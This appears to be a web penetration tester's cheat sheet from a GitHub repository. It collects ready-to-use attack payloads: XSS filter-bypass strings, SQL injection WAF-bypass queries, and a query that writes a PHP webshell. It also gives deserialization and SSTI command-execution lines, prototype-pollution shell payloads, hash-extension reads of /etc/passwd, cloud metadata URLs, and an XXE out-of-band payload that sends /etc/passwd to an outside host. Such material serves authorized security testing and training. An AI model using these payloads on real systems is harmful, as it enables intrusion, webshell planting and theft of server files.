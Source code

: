 # Tricks - Web Penetration Tester

- [x] In Construction... (85%)

## WAF

### Manual Detection:

-> Cookies

-> Response messages

-> HTTP status Code's

-> Rules

## Host Obfuscation

#### Types

-> DWORD
  
-> OCTAL 
  
-> HEX
  
-> HYBRID

### Tool

https://www.silisoftware.com/tools/ipconverter.php

### Response - Status code WAF'S

-> mod_security -> 406 Not Acceptable

-> AQTRONIX WebKnight -> 999 No hacking

### Tool's

-> wafw00f 

https://github.com/EnableSecurity/wafw00f

-> nmap --script=http-waf-fingerprint

https://nmap.org/nsedoc/scripts/http-waf-fingerprint.html

-> imperva-detect

https://raw.githubusercontent.com/vmfae-iscteiulpt/imperva-detect/master/imperva-detect.sh

#### Others

https://github.com/0xInfection/Awesome-WAF

## PHP Obfuscation Techniques:

### Mix - Hex + Octal

echo "t\x72\x69\143\153s";

//Tricks

### Variable Parsing

$a = "ri"; $b ="ck"; echo "T$a[0]$a[1]$b[0]$b[1]s";

//Tricks

### Variable Variables

$a = "T"; $$a = "ri"; $$$a = "cks"; echo $a.$T.$ri;

//Tricks

### PHP Non-Alphanumeric 

$\_="{"; #XOR char

echo $\_=($\_^"<").($\_^">").($\_^"/"); #XOR = GET

//GET

https://web.archive.org/web/20160516145602/http://www.thespanner.co.uk/2011/09/22/non-alphanumeric-code-in-php/

### Tools

-> phponalpha

-> phponalpha2

https://hackvertor.co.uk/public

### PHP Obfuscation - base64+gzdeflate

codes/obufscation/obfuscation.php

## Cross-Site Scripting (Reflected, Stored, DOM, Mutation, Poliglote)

### Protection XSS

-> XSS Auditor and XSS Filter

https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

https://www.chromium.org/developers/design-documents/xss-auditor/

https://portswigger.net/daily-swig/xss-protection-disappears-from-microsoft-edge

https://developer.mozilla.org/pt-BR/docs/Web/HTTP/Headers/X-XSS-Protection

-> Wordlists for XSS Bypass

https://gist.githubusercontent.com/rvrsh3ll/09a8b933291f9f98e8ec/raw/535cd1a9cefb221dd9de6965e87ca8a9eb5dc320/xxsfilterbypass.lst

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt

https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Cheat-Sheet-PortSwigger.txt

### XSS Keylogger

https://rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/

https://github.com/hadynz/xss-keylogger

### XSS Mutation

http://www.businessinfo.co.uk/labs/mxss/

### XSS Poliglote

https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

### Regex blacklist filtering

(on\w+\s*=)

<svc/onload=alert(1)>

<svg//////onload=alert(1)>

<svg id=x;onload=alert(1)>
  
<svg id=\`x\`onload=alert(1)>
  
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
  
<svg onload%09=alert(1)>
  
<svg %09onload=alert(1)>
  
<svg %09onload%20=alert(1)>
  
<svg onload%09%20%28%2C%3B=alert(1)>
  
<svg onload%0B=alert(1)>

### Keyword based in filter
 
#### blocked - alert - bypass
  
-> <script>\u0061lert(1)</script>
  
-> <script>\u0061\u006C\u0065\u0072\u0074(1)</script>
  
-> <script>eval("\u0061lert(1)")</script>
  
-> <script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script> 
  
#### Removing HTML Tags
  
<scr<iframe>ipt>alert(1)</script>
  
### Scaping Quote
  
### Methods
  
-> String.fromCharCode()
  
-> unescape

Ex:
 
-> decode URI + unescape method
  
decodeURI(/alert(%22xss%22)/.source)
  
decodeURIComponent(/alert(%22xss%22)/.source)
  
Add execution sink for execution:
  
-> eval
  
### Escaping Parentheses
  
\<img src=x onerror="\u0061lert(1)"/>
  
\<img src=x onerror="eval('\141lert(1)')"/>

\<img src=x onerror="eval('\x61lert(1)')"/>
  
### Others Examples
  
#### HTML Tag
  
<div>
  
here
  
</div>

-> <svg/onload=alert(1)

#### HTML Tag Attributes

<input value="here"/></input>
 
-> adaa"> <a/href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=">show</!--
  
#### Script Tag
  
<script>
  
var name="here";
  
</div>
  
</script>
  
-> ;alert(1);//

#### Event Attributes

\<button onclick="reserve(here);">
  
Okay!
  
</button>

-> alert(1)

Dom Based
  
\<script>var ok = location.search.replace("?ok=", "");domE1.innerHTML = "<a href=\'"+ok+"\'>ok</a>";</script>
  
-> javascript:alert(1)

## JavaScript Encoding and Compressor:

-> jjencode

https://utf-8.jp/public/jjencode.html

-> aaencode

https://utf-8.jp/public/aaencode.html

-> jsfuck

https://github.com/aemkei/jsfuck/blob/master/jsfuck.js

-> Minifying

https://developers.google.com/closure/compiler/

-> Packer 

http://dean.edwards.name/packer/

## Type Juggling

https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf

### PHP - others tricks

[ eval () execute a chain whose variable $ HTTP_USER_AGENT is so just
change your header in PHP code ]

https://www.exploit-db.com/papers/13694

## Insecure Deserialization 

-> Binary

-> human readable

### PHP Deserialization

#### PHP - Method Serialization:

-> serialize()

-> unserialize()

#### Magic Methods:

-> __construct()

-> __destruct()

-> __wakUp()

#### Class Properties

Public \<s>
 
Ex:

O:4:"Okay":1:{s:8:"filepath";s:11:"/tmp/ok.txt";}
  
Protected \0 * \0

Ex:

O:4:"Okay":1:{s:11:"' . "\0" . '*' . "\0" . 'filepath";s:11:"/tmp/ok.txt";}

Private \0 \<s> \0

Ex:
  
O:4:"Okay":1:{s:14:"' . "\0" . 'Okay' . "\0" . 'filepath";s:11:"/tmp/ok.txt";}

codes/deserialization/example.php
  
#### Trick Bypass

a:2:{s:8:"anything";o:4:"Okay":1:{s:8:"filepath";s:11:"/tmp/ok.txt";}}
  
### .NET Deserialization

#### Methods Serialization:

-> Binary Formatter

-> DataContractSerializer

-> NetDataContractSerializer

-> XML Serialization
  
#### Most common places to find serialized data

-> VIEWSTATE
    
-> .NET remoting services
  
#### Tool

https://github.com/pwntester/ysoserial.net

### Java Deserialization

#### Identify

-> import java.io.serializable

-> binary with ac ed 00 05

-> base64 starts with rO0AB in web applications
  
#### java.lang.Runtime.exec()
  
bash -c {echo,payload_base64}|{base64,-d}|{bash,-i}

https://www.bugku.net/runtime-exec-payloads/

### Tools

https://github.com/frohoff/ysoserial

https://github.com/NickstaDB/SerializationDumper

https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java
  
### Script
  
codes/deserialization/java/gserial.sh
  
codes/deserialization/java/payload.txt
  
while read payload; 
  
do echo "$payload\n\n"; 
  
java -jar ysoserial.jar $payload "sleep 5" | base64 | tr -d '\n' > $payload.ser; 
  
echo "-----------------Loading-----------------\n\n"; done < payloads.txt
                                                                         
#### Bad Sign

-> ClassNot FoundException

#### Good Sign

-> java.io.IOException

## Cloud

http://169.254.169.254/latest/meta-data

http://169.254.169.254/latest/api/token

### Serverless Injection

echo "hi" > ok.txt && aws s3 cp ok.txt 's3://<BUCKET>/' -acl -public-read
  
### Tools

https://github.com/clarketm/s3recon
  
## XPATH
  
error()

* and doc('http://hacker.site/')
  
* and doc('http://hacker.site/', name(/*) ))
  
### Tools
  
https://xcat.readthedocs.io/en/latest/
  
### Wordlists for SQLI e XPath - Authentication Bypass

https://raw.githubusercontent.com/payloadbox/sql-injection-payload-list/master/Intruder/exploit/Auth_Bypass.txt
  
## Padding Oracle Attack
  
### Identify

-> rememberMe: (Cookie)

### Exploiting 

java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" > payload.class

https://github.com/frohoff/ysoserial

python shiro_exp.py site.com/home.jsp cookie payload.class

https://github.com/wuppp/shiro_rce_exp/blob/master/shiro_exp.py
  
## Hash Length Extension Attack

https://github.com/iagox86/hash_extender

https://site.com/index.php?file=oktest&hash=hash

./hash_extender -f sha1 --data 'oktest' -s hash --append '../../../../../../../../../etc/passwd' --secret-min=10 --secret-max=40 --out-data-format=html --table > payloads.out

burp intruder -> payloads.out in file parameter.  
  
## Insecure - Machine Key for RCE 

https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/deserialization/exploiting-__viewstate-parameter.md
  
https://github.com/pwntester/ysoserial.net
  
https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper

## Local File Inclusion - LFI

### LFI - files for fuzzing

### Wordlist LFI - Linux

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

### Wordlist LFI - Windows

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

### Payloads for bypass:

-> bypass_lfi.txt
  
### Wordlist for parameter fuzzing
  
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt
  
### Wordlist for subdomain fuzzing
  
https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS

## SQL Injection
  
### WAF BYPASS

#### Query default:

'UNION SELECT 1, name,3,4 from users; -- -

#### Add comment /* */ for space bypass

'UNION/\*\*/SELECT/\*\*/1,name,3,4/**/from/**/users; -- -

#### Add comment /\*!\*/ in query for filters bypass

'/\*!UNION SELECT\*/ 1,group_concat(name),3,4 from users; -- -

#### Add random case

'UnIoN SeLeCt 1,GrOuP_cOnCaT(nAme),3,4 FrOm users; -- -

#### Example of mix:

'/\*!UnIoN/\*\*/SeLeCt/\*\*/\*/1,GroUp_ConCat(nAmE),3,4/\*\*/FrOm/\*\*/users; -- -

#### Others Techniques:

-> urlencode (example:%20 instead of space);
  
-> Scientifc Notation;
  
-> hexadecimal, substr, etc...
  
### Webshell via SQLI
  
' union select 1, 2, 3,"<\?php system($_GET['cmd']);\?>" into outfile "/var/www/html/pdp.php"-- -
  
### SQL Injection Second-Order (query connector)

codes/sqli_second_order/sqlitwo.php

### SQL Injection Out-Of-Band, etc

https://book.hacktricks.xyz/pentesting-web/sql-injection
  
### Tamper's SQLMAP
  
-> randomcase.py
  
-> order2ascii.py

-> xforwardedfor.py
 
### XPATH NOTATION
  
%' and extractvalue(0x0a,concat(0x0a,(select database() limit 1))) -- -
  
### Wordlist for SQL Injection - Bypass

https://gist.githubusercontent.com/zetc0de/f4146eb278805946ab064a753eac6a02/raw/e126452093b9cde7f82eff14a15f8ceca8188701/sqli-bypass-waf.txt

### Doc for SQL Injection - Bypass

https://github.com/OWASP/www-community/blob/master/pages/attacks/SQL_Injection_Bypassing_WAF.md
  
## NOSQL Injection
  
https://book.hacktricks.xyz/pentesting-web/nosql-injection
  
## Graphql Introspection

https://ivangoncharov.github.io/graphql-voyager/
  
## CSRF

codes/csrf/csrf_common.html
  
codes/csrf/csrf_json.html
  
codes/csrf/csrf_json_xhr.html
  
codes/csrf/csrfx.html

codes/csrf/csrfx_token_bypass.html

### Analyze the token and perform brute-force

burp intruder -> sequencer -> Token Location Within Response -> Start live capture -> save tokens

cat tokens.txt | uniq -c | nl 
  
## SSTI

### Identify

-> Jinja2 orTwig
  
{{3*3}}

-> Smarty or Mako
  
{3*3}

ERB(Ruby)
  
<%= 7*7 %>

-> Others
  
${3*3}
  
${{3*3}}
  
#{3*3}
  
3*3

### Java Expression Language

{{T(java.lang.Runtime).getRuntime().exec('id')}}

''.class.forName('java.lang.Runtime').getRuntime().exec('id')
  
### Doc for SSTI	

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
  
## SSRF - Protocol Smuggling

-> HTTP-Based(Elastic, CouchDB, Mongodb, docker),etc.

-> Text-Based(ftp(21), smtp(587), zabbix(10051), mysql(3306), redis(6379), memcached(11211), etc.

curl "gopher://localhost:port"

### Tool's

-> Gopher Protocol

https://datatracker.ietf.org/doc/html/rfc1436

-> Gopherus

https://github.com/tarunkant/Gopherus
  
### Scripts

codes/ssrf_protocol_smuggling/zabbix.py
  
codes/ssrf_protocol_smuggling/memcached.py
  
-> stats items
  
-> stats cachedump <slab class> <number of items to dump>
  
-> get <item>
  
### Doc for SSRF - bhack

https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
  
## CRLF Injection
  
/%0D%%0ALocation

## XXE OOB

-> Part 1

\<!DOCTYPE okay[

\<!ENTITY % ult SYSTEM "http://ip/evil.dtd">

%ult;

]

\>

-> Part 2
  
codes/xxe_oob/evil.dtd
  
\<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
  
\<!ENTITY % payload "<!ENTITY &\#37; remote SYSTEM 'http://ip/?leak=%file;'>">
  
%payload;
  
%remote;
  
## XSLT Server Side Injection
  
https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations
  
## Others tool's and things
  
### ImageTragik

codes/rce/tragik.jpg

### Search across a half million git repos
  
https://grep.app
  
### The Cyber Swiss Army Knife - a web app for encryption, encoding, compression and data analysis.
  
https://gchq.github.io/CyberChef/
  
### List of file signatures
  
https://en.wikipedia.org/wiki/List_of_file_signatures

### Regex 
  
https://regex101.com/
  
### Decode for JS
  
### Encode for SQL Injection in Json
  
https://dencode.com/string/unicode-escape
  
## Prototype Pollution

### Client Side
https://github.com/BlackFan/client-side-prototype-pollution
  
### Server Side

-> exec.exec in req body with lodash - application/json
  
https://nodejs.org/api/child_process.html#child_processexeccommand-options-callback

"__proto__":{
  
  "shell":"sleep 5"
  
}
  
-> exec.fork in req body with lodash - application/json
  
https://nodejs.org/api/process.html
  
"__proto__":{
  
    "execPath":"/bin/bash",
  
    "execArgv":[
  
    "-c",
  
    "sleep 5"
  
    ]
  
  }
  
